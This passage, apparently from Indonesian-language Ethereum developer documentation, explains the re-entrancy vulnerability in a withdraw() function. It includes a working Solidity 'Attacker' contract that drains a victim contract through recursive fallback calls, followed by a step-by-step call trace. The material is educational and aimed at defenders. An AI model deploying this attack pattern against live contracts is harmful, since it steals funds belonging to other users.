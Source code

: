 Untuk memungkinkan seorang pengguna menarik ETH yang telah disimpan sebelumnya pada kontrak, fungsi ini

1. Membaca jumlah saldo yang dimiliki pengguna
2. Mengirimkan kepada pengguna jumlah saldo dalam ETH
3. Mengatur ulang saldo pengguna ke 0, sehingga mereka tidak bisa menarik saldo mereka lagi.

Jika dipanggil dari akun reguler (seperti akun MetaMask milik Anda), ini berfungsi sebagaimana mestinya: msg.sender.call.value(), mengirimkan ETH ke akun Anda. Akan tetapi, kontrak pintar juga bisa membuat pemanggilan. Jika kontrak kustom yang jahat adalah kontrak yang memanggil `withdraw()`, msg.sender.call.value() tidak hanya akan mengirim `amount` ETH, tetapi secara implisit juga akan memanggil kontrak untuk memulai eksekusi kode. Bayangkan kontrak jahat ini:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Memanggil Attacker.beginAttack() akan memulai satu siklus yang terlihat seperti ini:

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Memanggil Attacker.beginAttack dengan 1 ETH akan menyerang Korban secara re-entrancy, yang menarik lebih banyak ETH dari yang disediakan (diambil dari saldo pengguna lain, menyebabkan kontrak Korban menjadi di bawah penjaminan)

### Bagaimana mengatasi re-entrancy (cara yang salah) {#how-to-deal-with-re-entrancy-the-wrong-way}
